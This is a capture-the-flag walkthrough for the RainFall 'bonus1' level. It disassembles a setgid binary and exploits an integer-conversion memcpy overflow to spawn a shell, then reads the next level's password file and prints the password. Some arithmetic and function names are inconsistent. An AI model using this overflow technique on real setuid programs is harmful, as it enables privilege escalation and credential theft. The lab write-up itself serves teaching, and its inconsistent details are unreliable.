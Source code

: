 # bonus1

## Hint

When we log into the machine as `bonus1`, we notice a binary:

```shell-session
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

The first run of the binary is resulting a Segmentation Fault.

```shell-session
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```

And any arguments pass to the binary doesn't seems to do anything.

```shell-session
bonus1@RainFall:~$ ./bonus1 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
bonus1@RainFall:~$
```

Lets dig into it

## gdb

After running `info variables` and `info functions` in gdb, we see no unknown symbols.

Conclusion:
There are no user-defined function or global variables neither.

Ok let's look at `main`

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0                     <-- allign the stack to 16 bytes boundaries
   0x0804842a <+6>:	sub    esp,0x40                           <-- 64 Bytes allocated.
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load *argv[]
   0x08048430 <+12>:	add    eax,0x4                            <-- eax = &argv[1]
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]                <-- eax = argv[1]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax                <-- prepare argv[1] as argument to atoi()
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>               <-- call atoi(argv[1])
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax           <-- store return of atoi(argv[1])
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9           <-- compare return of atoi(argv[1]) with 9
   0x08048446 <+34>:	jle    0x804844f <main+43>                <-- if atoi(argv[1]) <= 9, jump to main+43
   0x08048448 <+36>:	mov    eax,0x1                            <-- set eax to 1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>               <-- jump to main+127 (return(1))
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]           <-- load atoi(argv[1])
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]                    <-- set ecx to atoi(argv[1]) * 4
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load char *argv[]
   0x0804845d <+57>:	add    eax,0x8                            <-- set eax to argv[2]
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]                <-- load char *argv[2]
   0x08048462 <+62>:	mov    edx,eax                            <-- set edx to eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]                     <-- load char buffer[40];
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx            <-- set 3rd argument to i *= 4
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx            <-- set 2nd argument to argv[2]
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax                <-- set 1st argument to buffer
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>             <-- call memcpy(buffer, argv[2], i)
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46    <-- compare i with '1464814662'
   0x08048480 <+92>:	jne    0x804849e <main+122>               <-- if i != '1464814662', jump to main+122 (return(0))
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0            <-- set 3rd argument to 0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580   <-- set 2nd argument to "sh"
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583       <-- set 1st argument to "/bin/sh"
   0x08048499 <+117>:	call   0x8048350 <execl@plt>           <-- call execl("/bin/sh", "sh", 0)
   0x0804849e <+122>:	mov    eax,0x0                         <-- set eax to 0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret                                    <-- return(0)
End of assembler dump.
```

## Identifying the vulnerability 

We clearly can see that the `main` function is calling `execl` with the `/bin/sh` and `sh` arguments.

But how can we get there ?

### Underflowing the integer 

Our first argument to this binary is passed to `i = atoi(argv[1])`.

Then if our first argument is at most equal to `9`.

We can go further.

Then the value returned by `atoi()` is multiplied by `4`.

So `i` becomes `i * 4`.

Then we have `memcpy(buffer, argv[2], i)`.

We pass our second argument to the binary and it is copied byte after byte to the `buffer`.

The `buffer` can hold at most `40` bytes.

We cleary have a buffer overflow potential here. 

But from a simple mathematical standpoint, it is not possible.

Indeed, to get a buffer overflow, we have to pass more than `40` bytes to the `memcpy()` function.

But to get there we can at most give: `9 * 4` = `36 bytes` to `memcpy()`.

After a bit digging we can see that a integer conversion occurs there.

We receive a signed integer from the `atoi()` function, but we pass a unsigned integer to `memcpy()`.

So we must ensure to have a correct value for the `i` variable as a signed integer and pass the first check and still trigger a buffer overflow.

### Overflowing the buffer 

Since the integer is at the higher memory address than the buffer, we can easily overflow this address and pass the condition `if (i == 1464814662)`.

So technically we need more than 40 bytes to overflow the buffer and be able to overwrite the integer.

But how can we pass a positive value to memcpy with a negative integer as input ?

We know that `uint_max = 2^32 - 1 = 4294967295`.

So if we add `1` to `4294967295` we get 0 when casting it to a unsigned integer.

Let's divide by `4` to get the integer.

`4294967296 / 4 = 1073741824`. If we multiple `(unsigned int)(-1073741824 * 4)` we have 0.

We then have a negative integer that passes the crash we can now find our next segfault deeper in the executable.

We will find which value is causing a buffer overflow with `memcpy` now.

Let's find the segfault from there.

```gdb
(unsigned int)(-1073741824 * 4) = 4.
(unsigned int)(-1073741823 * 4) = 8.
(unsigned int)(-1073741822 * 4) = 12.
(unsigned int)(-1073741821 * 4) = 16.
(unsigned int)(-1073741820 * 4) = 20.
(unsigned int)(-1073741819 * 4) = 24.
(unsigned int)(-1073741818 * 4) = 28.
(unsigned int)(-1073741817 * 4) = 32.
(unsigned int)(-1073741816 * 4) = 36.
(unsigned int)(-1073741815 * 4) = 40.
(unsigned int)(-1073741814 * 4) = 44.
(unsigned int)(-1073741813 * 4) = 48.
(unsigned int)(-1073741812 * 4) = 52.
(unsigned int)(-1073741811 * 4) = 56.
(unsigned int)(-1073741810 * 4) = 60.
(unsigned int)(-1073741809 * 4) = 64.  <-- segfault !
```

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809
Segmentation fault (core dumped)
```

We can now overwrite the integer with an exact value and a padding of 40 bytes.

## recap

2 arguments are passed to the program:
1. argv[1] is fed to `atoi()`
   - a variable `i` of type `unsigned int `is used to store the returned value
   - it is then casted to `int` and then tested to be `<=` to 9.
      - false -> return 1
      - true -> continue with program
	 - multiply that value by 4 and call `memcpy`
2. argv[2] is fed to `memcpy` as follows: `memcpy(buffer, argv[2], i);`
   - as we know this function is prone to security exploits, we just need to find the correct value for `i` in order to correctly overflow the destination `buffer`.
   - After a bit of calculations we find a value (`-1073741809`) that not only allows us to pass de `<= 9` test, but also overflow the buffer used in the call to `memcpy` with a value of `64`.
   - Once we have managed to overflow the buffer, we just have to insert with the right padding a specific value at the address of the `i` variable in order to get to the call to `execv("/bin.sh", "sh", 0);`

## Exploit

No need shell code we know exactly where the integer is located. The rest will follow.

```shell-session
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c "print '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
